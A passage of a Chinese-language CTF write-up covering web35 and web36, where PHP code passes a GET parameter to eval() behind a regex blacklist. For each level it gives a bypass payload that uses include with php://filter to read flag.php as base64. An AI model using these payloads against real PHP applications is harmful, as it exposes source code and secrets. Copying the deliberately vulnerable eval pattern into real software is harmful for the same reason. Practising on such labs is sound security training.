 过滤多了一个冒号，也是上一关payload 。

```
?c=include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php

?c=include$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php
```

## web35~文件包含绕过

```php
<?php

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 
```

多过滤了 `<`、`=` 。没啥用，直接打

```
?c=include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php

?c=include$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php
```

## web36~文件包含绕过

```php
<?php

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=|\/|[0-9]/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 
```

多过滤了 `数字` ，继续打。

```
?c=include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php
```
